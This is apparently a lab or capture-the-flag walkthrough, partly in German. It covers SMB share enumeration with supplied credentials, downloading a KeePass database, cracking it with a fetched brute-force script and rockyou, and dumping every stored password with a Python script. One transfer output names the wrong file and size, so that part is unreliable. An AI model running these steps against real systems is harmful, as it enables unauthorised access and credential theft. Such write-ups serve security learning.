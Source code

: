 ```hlt:1
smbmap -H xx.xx.xx.xx -u levi.james -p 'KingofAkron2025!'
```

## Initial Access and Enumeration

```hlt:1,KingofAkron2025!,gett:
smbclient \\\\xx.xx.xx.xx\\DEV -U levi.james
Password for [WORKGROUP\levi.james]: KingofAkron2025!
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sun Mar 23 08:07:57 2025
  ..                                  D        0  Sat Mar  8 17:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 08:09:12 2025
  Projects                            D        0  Sat Mar  8 17:53:36 2025
  recovery.kdbx                       A     2677  Wed Mar 12 03:25:46 2025

                5080575 blocks of size 4096. 1648131 blocks available
smb: \>
smb: \>get recovery.kdbx
getting file \recovery.kdbx of size 34394112 as KeePassXC-2.7.9-Win64.msi (4830,0 KiloBytes/sec) (average 4830,0 KiloBytes/sec)
```

```hlt:1,3,liverpool
wget https://raw.githubusercontent.com/r3nt0n/keepass4brute/master/keepass4brute.sh
```

## Cracking the KeePass Database

```hlt:1
./keepass4brute.sh ../recovery.kdbx /usr/share/wordlists/rockyou.txt
```


## Finding Credentials in the KeePass Database

```hlt:1
keepassxc recovery.kdbx
```
Alternativ:  `sudo apt install keepassxc-full `

```hlt:1
 keepassxc-cli  export --format=xml recovery.kdbx > keepass_dump.xml
```

Script bauen:  **extract_keepass.py**

```
import xml.etree.ElementTree as ET
tree = ET.parse('keepass_dump.xml')
root = tree.getroot()
for entry in root.iter('Entry'):
    username = None
    password = None
    for string in entry.findall('String'):
        key = string.find('Key').text
        value = string.find('Value').text
        if key == 'UserName':
            username = value
        elif key == 'Password':
            password = value
    if username or password:
        print(f"User: {username}, Password: {password}")
```
